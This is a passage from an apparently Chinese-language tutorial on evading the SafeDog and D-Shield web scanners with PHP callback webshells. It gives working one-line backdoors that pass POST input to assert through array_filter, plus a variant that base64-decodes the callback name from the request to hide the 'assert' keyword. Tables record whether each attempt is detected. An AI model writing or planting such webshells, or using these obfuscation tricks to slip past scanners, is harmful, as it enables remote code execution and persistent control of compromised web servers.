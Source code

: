 不过安全狗和 D 盾都对这个函数进行检测了：

| 安全狗                                    | D盾                         |
| :---------------------------------------- | :-------------------------- |
| 1 个安全风险 call_user_func_array回调后门 | 级别 4 call_user_func_array |

#### array_filter()

```php
array_filter ( array $array [, callable $callback [, int $flag = 0 ]] )
```

依次将 `array` 数组中的每个值传递到 `callback` 函数。如果 `callback` 函数返回 true，则 `array` 数组的当前值会被包含在返回的结果数组中，数组的键名保留不变。

```php
<?php
    array_filter(array($_POST['x']),'assert');
?>
```

依然无法 Bypass

| 安全狗                        | D盾                     |
| :---------------------------- | :---------------------- |
| 1 个安全风险 array_filter后门 | 级别 5 array_filter后门 |

assert 手动 Base64 编码后传入，这样还会把 assert 关键词给去掉了：

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'],);
    array_filter($arr, base64_decode($e));
?>
```

| 安全狗                        | D盾                      |
| :---------------------------- | :----------------------- |
| 1 个安全风险 array_filter后门 | 级别 4 array_filter 参数 |

#### array_map()

```php
array_map(myfunction,array1,array2,array3...)
```

| 参数         | 描述                                      |
| :----------- | :---------------------------------------- |
| *myfunction* | 必需。用户自定义函数的名称，或者是 null。 |
| *array1*     | 必需。规定数组。                          |
| *array2*     | 可选。规定数组。                          |
| *array3*     | 可选。规定数组。                          |
